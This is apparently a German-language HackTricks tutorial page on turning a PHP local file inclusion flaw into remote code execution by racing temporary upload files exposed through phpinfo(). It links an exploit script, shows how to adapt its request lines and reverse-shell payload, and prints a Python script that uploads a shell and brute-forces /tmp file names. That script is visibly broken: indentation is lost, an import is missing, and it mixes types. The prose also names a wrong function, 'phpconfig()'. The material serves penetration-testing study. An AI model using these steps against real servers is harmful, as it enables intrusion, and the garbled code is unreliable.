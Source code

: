 {% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Erhalte die Perspektive eines Hackers auf deine Webanwendungen, Netzwerke und Cloud

**Finde und melde kritische, ausnutzbare Schwachstellen mit echtem Geschäftsauswirkungen.** Nutze unsere 20+ benutzerdefinierten Tools, um die Angriffsfläche zu kartieren, Sicherheitsprobleme zu finden, die dir ermöglichen, Privilegien zu eskalieren, und automatisierte Exploits zu verwenden, um wesentliche Beweise zu sammeln, die deine harte Arbeit in überzeugende Berichte verwandeln.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


Um diese Schwachstelle auszunutzen, benötigst du: **Eine LFI-Schwachstelle, eine Seite, auf der phpinfo() angezeigt wird, "file\_uploads = on" und der Server muss in das Verzeichnis "/tmp" schreiben können.**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

Du musst den Exploit reparieren (ändere **=>** in **=>**). Dazu kannst du Folgendes tun:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
Du musst auch die **payload** am Anfang des Exploits ändern (zum Beispiel für eine php-rev-shell), die **REQ1** (dies sollte auf die phpinfo-Seite zeigen und das Padding enthalten, d.h.: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), und **LFIREQ** (dies sollte auf die LFI-Schwachstelle zeigen, d.h.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Überprüfe das doppelte "%" beim Ausnutzen des Nullzeichens)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### Theorie

Wenn Uploads in PHP erlaubt sind und du versuchst, eine Datei hochzuladen, wird diese Datei in einem temporären Verzeichnis gespeichert, bis der Server die Anfrage verarbeitet hat, dann wird diese temporäre Datei gelöscht.

Wenn du also eine LFI-Schwachstelle im Webserver gefunden hast, kannst du versuchen, den Namen der erstellten temporären Datei zu erraten und eine RCE auszunutzen, indem du auf die temporäre Datei zugreifst, bevor sie gelöscht wird.

In **Windows** werden die Dateien normalerweise in **C:\Windows\temp\php** gespeichert.

In **Linux** war der Name der Datei **zufällig** und befand sich in **/tmp**. Da der Name zufällig ist, ist es notwendig, **den Namen der temporären Datei irgendwo zu extrahieren** und darauf zuzugreifen, bevor sie gelöscht wird. Dies kann erreicht werden, indem der Wert der **Variable $\_FILES** im Inhalt der Funktion "**phpconfig()**" gelesen wird.

**phpinfo()**

**PHP** verwendet einen Puffer von **4096B** und wenn er **voll** ist, wird er **an den Client gesendet**. Dann kann der Client **viele große Anfragen senden** (unter Verwendung großer Header), **eine php** Reverse **Shell hochladen**, auf die **erste Rückgabe von phpinfo() warten** (wo der Name der temporären Datei steht) und versuchen, **auf die Temp-Datei zuzugreifen**, bevor der PHP-Server die Datei löscht, indem er eine LFI-Schwachstelle ausnutzt.

**Python-Skript, um zu versuchen, den Namen zu bruteforcen (wenn die Länge = 6)**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Erhalten Sie die Perspektive eines Hackers auf Ihre Webanwendungen, Ihr Netzwerk und die Cloud

**Finden und melden Sie kritische, ausnutzbare Schwachstellen mit echtem Geschäftsauswirkungen.** Verwenden Sie unsere 20+ benutzerdefinierten Tools, um die Angriffsfläche zu kartieren, Sicherheitsprobleme zu finden, die Ihnen ermöglichen, Berechtigungen zu eskalieren, und nutzen Sie automatisierte Exploits, um wesentliche Beweise zu sammeln, die Ihre harte Arbeit in überzeugende Berichte verwandeln.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
